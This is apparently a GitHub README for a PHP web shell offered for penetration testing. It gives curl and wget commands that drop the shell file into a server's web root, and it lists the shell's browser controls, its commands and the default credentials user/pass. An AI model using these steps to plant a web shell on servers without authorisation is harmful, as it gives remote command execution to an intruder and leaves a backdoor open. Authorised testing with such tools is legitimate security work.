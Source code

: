 # php-shell
A simple, intuitive, feature rich, php web shell for pen testing.

### Usage

To download use one of the following (or similar)

```bash
curl https://github.com/eb3095/php-shell/raw/master/php-shell.php > /var/www/html/php-shell.php
```

```bash
wget https://github.com/eb3095/php-shell/raw/master/php-shell.php -O /var/www/html
```

From there just visit the website with /php-shell.php at the end and enjoy your web based shell from the host!

### Controls

* Arrow Up: History up
* Arrow Down: History down
* Enter: Run command
* Click Anywhere: Focus command prompt

History is not saved across sessions and is stored locally in the browser for the time being.

### Commands

* exit: Log out
* cd: Change directory
* cls: Clear the screen

cd is unique here. If you do the following,

```bash
cd /home; ls
```

This will be executed as a SH/BASH command. The cd will not set the current working directory outside of the exec. However,

```bash
cd /home
```

This will be executed as an internal command setting the PHP cwd and it is permanent (until refresh).

### Credentials

The defaults are,

Username: user
Password: pass

The username and password are both hashed via sha512 and set in the file directly.